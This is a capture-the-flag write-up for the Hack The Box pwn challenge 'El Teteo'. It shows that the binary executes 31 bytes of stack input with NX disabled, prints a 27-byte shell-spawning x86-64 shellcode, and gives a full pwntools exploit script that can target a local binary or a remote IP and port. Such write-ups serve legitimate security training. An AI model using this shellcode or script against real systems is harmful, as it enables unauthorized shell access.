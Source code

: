 ```yaml
---
title: "El Teteo 🔥 - Shellcode Injection Exploit Writeup"
tags: [HTB, binary exploitation, shellcode, stack exec, pwn]
---
```


# El Teteo 🔥

![Category](https://img.shields.io/badge/category-Pwn-orange)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Platform](https://img.shields.io/badge/platform-Linux-blue)
![HTB](https://img.shields.io/badge/HTB-Challenge-green)

El Teteo, a mischievous ghostly djinni born with a party spirit. You have one chance to summon it and make your wish—but only if it’s in the mood to grant it.

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

Let’s begin by checking the binary’s security protections using `checksec`.

![Checksec output](https://github.com/user-attachments/assets/ceec4776-f279-4c0b-9667-e0cc5f46a2e8)

**Findings:**
- ✅ Full RELRO  
- ✅ Stack Canary found  
- ❌ NX disabled  
- ✅ PIE enabled  
- ❌ No FORTIFY

## Program Behavior 📟

When we launch the binary, this is what it displays:

![Program Launch Output](https://github.com/user-attachments/assets/1a6f190f-eab5-4789-a89a-df1e661e643e)

A spooky looking ASCII pumpkin along with the text:

```
[!] I will do whatever you want, nice or naughty..
```

## Reverse Engineering 🔍

By decompiling the binary using **Ghidra**, we land in the `main()` function:

![Ghidra Decompiled Function](https://github.com/user-attachments/assets/c5c6f27e-8b4f-4be6-823b-84d24b0c2e96)

Two particularly interesting lines:

```c
read(0,&local_68,0x1f);
(*(code *)&local_68)();
```

This reads **31 bytes** from stdin and directly **executes** the buffer as code. 

Since NX is disabled, we can directly inject shellcode into the stack and it will be executed.

## Exploitation Strategy 💣

We need a shellcode that fits within **31 bytes**.

We can use this 27-byte shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-806.html) which spawns `/bin/sh`:

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

## Full Exploit Script 🧨

```python
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description="Exploit remote or local")
    parser.add_argument("-r", "--remote", help="Remote mode with IP and port", nargs=2, metavar=("IP", "PORT"))
    parser.add_argument("-l", "--local", help="Local mode with a binary", metavar="BINARY")
    args = parser.parse_args()

    if args.remote:
        ip, port = args.remote
        p = remote(ip, int(port))
    elif args.local:
        p = process(args.local)
    else:
        print("Please specify an execution mode (-r IP PORT or -l BINARY)")
        return
    
    shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    print(f"Shellcode length: {len(shellcode)} bytes")
    
    p.sendlineafter(b'>', shellcode)
    p.interactive()

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

We run the exploit:

```
$ python3 exploit.py -l ./el_teteo
```

🎉 Result:

![Flag Output](https://github.com/user-attachments/assets/64507c3f-307f-4f7d-8d29-ff92d80662f4)

Flag captured:
```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

## Conclusion 🧾

This challenge was a classic example of a **stack-based shellcode injection** made possible by:
- Disabled NX
- Direct execution of user input (`(*(code *)buffer)()`)

By keeping the shellcode under 31 bytes, we successfully popped a shell and retrieved the flag.

🔙 [Back to Challenge Writeups](../../)
